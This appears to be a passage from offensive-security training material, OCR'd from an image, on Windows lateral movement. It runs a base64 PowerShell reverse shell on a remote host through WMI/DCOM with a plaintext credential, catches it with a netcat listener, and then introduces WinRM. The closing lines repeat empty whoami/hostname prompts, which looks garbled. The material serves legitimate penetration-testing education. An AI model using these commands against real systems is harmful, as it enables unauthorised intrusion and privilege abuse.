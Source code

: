 ```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

> Listing 8 - Executing the WMI payload with base64 reverse shell

From the output in Listing 8, we can conclude that the process creation has been successful, and switch to our listener for a final confirmation.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> whoami
corp\jen
```

> Listing 9 - Executing the WMI payload with base64 reverse shell

Nice! We indeed managed to move laterally and gain privileges as the _jen_ domain user on an internal server by abusing WMI features.

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [_WS-Management_](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [_winrs_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname